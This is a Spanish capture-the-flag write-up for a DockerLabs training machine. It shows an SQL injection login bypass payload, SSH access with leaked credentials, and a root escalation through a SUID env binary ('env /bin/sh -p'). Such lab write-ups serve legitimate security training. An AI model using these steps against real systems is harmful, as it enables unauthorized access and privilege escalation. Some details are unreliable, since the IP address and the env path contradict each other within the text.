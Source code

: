 # Información de la Máqina
    ## Nombre: Injection
    ## Tipo: DockerLabs
    ## IP: 127.17.0.2
    ## Objetivo: Escalada de Privilegios a root

# 1.- Enumeración Inicial
Al acceder al servicio web en el puerto 80, se encuentra un formulario de login.
### Dominio Web:
![Dominio_Web](Injection_Dominio_Web.png)
### Pagina Web:
![Pagina_Web](Injection_Dominio_Web_Pagina.png)

# 2.- Explotación
Se prueba una Injección SQL clásica en el campo username:
```vbnet
' or 1=1-- -
```
![Injeccion_SQL](Injection_Dominio_Web_Injeccion_SQL.png)
Con cualquier contraseña, el login se bypassa con éxito.
El sistema muestra un nombre de usuario Dylan y una contraseña asociada.
![Datos_Sensibles](Injection_Dominio_Web_Muestra_Contrasena.png)

### Evidencia: Contraseña Guardada en:
```bash
Puntos_de_Encuentro/Password_Dylan.txt
```

# 3.- Movimiento lateral
Con las credenciales obtenidas, se establece conexión SSH:
```nginx
ssh dylan@172.17.0.2
```
![SSH](Injection_SSH_Completado.png)
Acceso exitoso como el usuario dylan

# 4.- Escalada de Privilegios
Se enumeran los binarios con bit SUID:
```javascript
find / -perm -4000 2>/dev/null
```
![Numeracion_Binarios](Injection_Escalado_Privilegios_2.png)
Se detecta /usr/bin/env con privilegios elevados.
### Ejecución del binario para escalar:
```bash
/src/bin/env /bin/sh -p
```
![Acceso_Root](Injection_Escalado_Privilegios_3_Final.png)
### Evidencia guardada en:
```bash
Puntos_de_Encuentro/Esclado_Privilegios.txt
```

# 5.- Resultado Final
Acceso root conseguido:
```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

# Conclusiones
> La máquina es vulnerable a un SQL Injection que permite burlar la autenticación.
> Las credenciales expuestas facilitan acceso vía SSH.
> La presencia de un binario SUID (env) mal configurado permite la escalada directa a root.
